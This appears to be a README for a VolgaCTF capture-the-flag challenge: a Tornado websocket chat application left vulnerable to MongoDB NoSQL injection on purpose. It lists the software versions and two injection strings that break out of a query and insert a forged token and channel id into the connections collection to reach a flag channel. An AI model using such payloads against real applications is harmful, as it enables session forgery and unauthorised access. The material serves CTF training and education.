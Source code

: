 
web socket chat application on tornado engine.

with injection into NoSQL MongoDB vulnerability.
you need to recive message from bot from VolgaCTF_Flag_Channel.

use it for education purposes only.


application use:

	mongodb = 3.2.4
	
	python = 3.5



injection vectors

	#'}), db.connections.save({'token':'123'})}//
	#'}), db.connections.save({"token": "ca434f43e33ccf546a765742f60ec7ec", "channel_id": "56f442972b03a12728a9ff55"})}//